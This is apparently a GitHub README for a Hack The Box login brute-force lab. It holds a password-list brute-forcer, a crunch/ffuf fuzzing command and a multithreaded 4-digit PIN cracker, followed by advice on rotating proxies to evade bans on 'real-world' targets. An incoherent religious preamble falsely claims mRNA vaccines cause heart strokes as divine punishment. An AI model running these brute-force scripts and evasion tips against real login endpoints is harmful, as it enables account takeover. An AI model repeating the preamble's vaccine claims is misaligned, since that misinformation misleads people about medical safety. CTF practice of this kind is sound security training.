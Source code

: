 # HTB_Login_bruteforce

Today's 29-05-2025 God's speaking: theres no place like home I'm done driving guilty place unsung hero are you insane bye you talkin' to me ahh thats much better failure to communicate Catastrophic Success by the way listen buddy CIA God smack foul white trash bad ol puddytat I'm tired of this economy straighten up BBC crash and burn this might end badly what do you want nerd money It grieves me how come Give me praise Russia

The brute-force attack can be utilized when the randomity of God reaches a human being. Motile human likes to create their fortress against God. What I mean is When the C virus occurred in China, the medical companies developed the vaccine to stand against God's oracle. Eventually, a side-effect of the evil irreversible MRNA vaccine could cause severe heart stroke. This is a consequence of the people who do not decide to follow God's will. I am talking about brute force attacking God's will and punishment of God. 

Here is a code given by the HTB. 
```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()
for password in passwords:
    print(f"Attempted password: {password}")

    
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```


In some reason the ffuf did not worked out on this URL 
```
crunch 4 4 0123456789 -o 4-digits.txt
ffuf -u "http://0.0.0.0.:00000/pin?pin=FUZZ" -w 4-digits.txt
```

They all have returned 401 errors.

The code below uses special techniques that allow repentants
to use Multithreading without time.sleep(), artificial Delays

```
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

ip = "0.0.0.0"  # Target IP
port = 12345           # Target port

def try_pin(pin):
    formatted_pin = f"{pin:04d}"
    try:
        response = requests.get(
            f"http://{ip}:{port}/pin?pin={formatted_pin}",
            timeout=3  # Prevents hanging on slow responses
        )
        if response.ok and 'flag' in response.json():
            return formatted_pin, response.json()['flag']
    except (requests.RequestException, ValueError) as e:
        pass  # Skip errors (timeouts, JSON decode fails)
    return None

def brute_force():
    with ThreadPoolExecutor(max_workers=50) as executor:  # Adjust workers based on server tolerance
        futures = [executor.submit(try_pin, pin) for pin in range(10000)]
        for future in as_completed(futures):
            result = future.result()
            if result:
                pin, flag = result
                print(f"\n[+] Correct PIN found: {pin}")
                print(f"[+] Flag: {flag}")
                executor.shutdown(wait=False)  # Stop all threads immediately
                return

if __name__ == "__main__":
    print("Starting brute-force attack...")
    brute_force()
```

1. Multithreading with ThreadPoolExecutor
What It Does:
Instead of testing PINs one-by-one (sequentially), the script sends multiple concurrent requests using a thread pool.

Example: If max_workers=50, it tests 50 PINs simultaneously, drastically reducing total time.

Key Components:
ThreadPoolExecutor: Manages a pool of worker threads.

executor.submit(): Queues a PIN to be tested by an available thread.

as_completed(): Yields futures (thread results) as they finish, out of order.

Why It’s Faster:
Sequential code (original) takes ~10,000 requests × latency (e.g., 0.1s) = 16+ minutes.

Multithreaded (50 workers) takes ~(10,000/50) × latency ≈ 20 seconds.

2. No time.sleep() or Artificial Delays
Original Problem:
Adding time.sleep() between requests slows down brute-forcing (e.g., sleep(0.1) → 16+ minutes total).

Unnecessary: Delays are only needed if the server rate-limits (handled later via max_workers).

Solution:
Remove all delays: Let threads run at full speed.

Control throughput via max_workers:

Fewer workers (e.g., max_workers=10) → Lower server load.

More workers (e.g., max_workers=100) → Faster but riskier (may trigger bans).

3. Error Handling and Timeouts
Critical Improvements:
try/except Blocks:

Catches network errors (e.g., timeouts, connection resets) silently to avoid crashes.

Skips invalid JSON responses (e.g., if the server returns HTML on errors).

timeout=3 in requests.get():

Prevents threads from hanging indefinitely on unresponsive servers.

Frees up threads quickly for new PINs.

Why It Matters:
Without timeouts, a single slow request could stall the entire thread pool.

Silent error handling ensures the script continues even if some requests fail.

4. Early Termination
How It Works:
When a thread finds the correct PIN ('flag' in response), it returns the result.

executor.shutdown(wait=False):

Immediately stops all threads (no wasted requests after success).

wait=False kills pending threads aggressively.

Efficiency Gain:
Avoids testing all 10,000 PINs if the correct one is found early (e.g., at PIN 0427).

5. Thread Safety and Shared State
Design Choices:
No shared variables: Each thread works independently (no locks needed).

Stateless: Threads don’t modify global data; results are returned via futures.

Why It’s Safe:
Threads only read the pin value and send HTTP requests.

Results are collected thread-safely by as_completed().

6. Optional: Dynamic Adjustments
For Real-World Use:
Proxy Rotation: Add proxies to requests.get() if the server bans IPs.

Rate Limiting: Reduce max_workers if the server rejects requests (e.g., HTTP 429).

Progress Tracking:
```
python
if pin % 100 == 0:
    print(f"Progress: {pin}/10000", end="\r")
```
Performance Comparison
Metric	Original Code	Enhanced Code (50 threads)
Total Time	~16 minutes	~20 seconds
CPU Usage	Low (single-threaded)	High (parallel)
Network Overhead	Low	Moderate (50 concurrent)
Robustness	Fragile (no error handling)	Resilient (timeouts/retries)
When to Use This Approach
Fast brute-forcing: Ideal for CTFs or pentesting where speed matters.

Servers without rate-limiting: If the target allows high concurrency.

Avoids ffuf limitations: When you need custom logic (e.g., JSON parsing).

Final Notes
Adjust max_workers based on server tolerance (start low, increase gradually).

Monitor for bans (HTTP 429/403); if triggered, add proxies or reduce threads.

For rate-limited targets, consider adding a small delay per thread (e.g., time.sleep(0.05) inside try_pin).

This script balances speed, reliability, and simplicity—perfect for attacking 4-digit PIN endpoints efficiently.




        
